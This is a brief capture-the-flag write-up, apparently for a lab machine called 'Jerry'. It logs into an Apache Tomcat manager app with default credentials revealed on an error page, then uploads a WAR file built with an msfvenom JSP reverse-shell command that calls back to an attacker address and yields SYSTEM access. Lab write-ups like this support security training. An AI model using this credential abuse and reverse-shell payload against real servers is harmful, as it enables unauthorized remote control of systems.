

# Jerry

> Nashia Holloway | May 24th, 2020

**10.10.10.95**

## Enumeration

Apache Tomcat is running on port 8080, version 7.0.88. Attempting to login to the manager app, we get an error page upon failure. From this page, we get creds that allow us to log in.

```
tomcat:s3cret
```



Once logged in, we can upload a WAR (Web Application Resource or Web application ARchive) file. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.46 LPORT=1234 -f war > shell.war
```

Upload this through the website and click the link to get the reverse shell. The shell is running as system, so we can get the user and root flags.
